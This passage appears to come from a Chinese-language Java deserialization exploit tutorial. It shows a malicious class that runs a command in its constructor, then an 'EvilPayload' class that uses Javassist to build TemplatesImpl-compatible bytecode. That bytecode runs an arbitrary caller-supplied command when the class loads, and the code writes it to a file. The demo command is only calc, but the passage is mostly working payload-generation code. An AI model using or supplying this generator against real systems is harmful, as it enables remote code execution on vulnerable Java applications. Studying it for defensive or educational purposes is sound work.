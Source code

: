 ```java
    public shell() throws IOException {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception var2) {
            var2.printStackTrace();
        }
    }
}
```

但是该恶意类在执行过程中并没有用到重写的方法，所以我们可以直接使用Javassist从字节码层面来生成恶意class，跳过恶意类的编译过程。代码如下。

```java
package javassist;  
  
import java.io.File;  
import java.io.FileOutputStream;  
  
public class EvilPayload {  
  
    public static byte[] getTemplatesImpl(String cmd) {  
        try {  
            ClassPool pool = ClassPool.getDefault();  
            CtClass ctClass = pool.makeClass("Evil");  
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");  
            ctClass.setSuperclass(superClass);  
            CtConstructor constructor = ctClass.makeClassInitializer();  
            constructor.setBody(" try {\n" +  
                    " Runtime.getRuntime().exec(\"" + cmd +  
                    "\");\n" +  
                    " } catch (Exception ignored) {\n" +  
                    " }");  
            byte[] bytes = ctClass.toBytecode();  
            ctClass.defrost();  
            return bytes;  
        } catch (Exception e) {  
            e.printStackTrace();  
            return new byte[]{};  
        }  
    }  
  
  
    public static void writeShell() throws Exception {  
        byte[] shell = EvilPayload.getTemplatesImpl("Calc");  
        FileOutputStream fileOutputStream = new FileOutputStream(new File("S"));  
        fileOutputStream.write(shell);  
    }  
  
    public static void main(String[] args) throws Exception {  
        writeShell();  
    }  
}
```
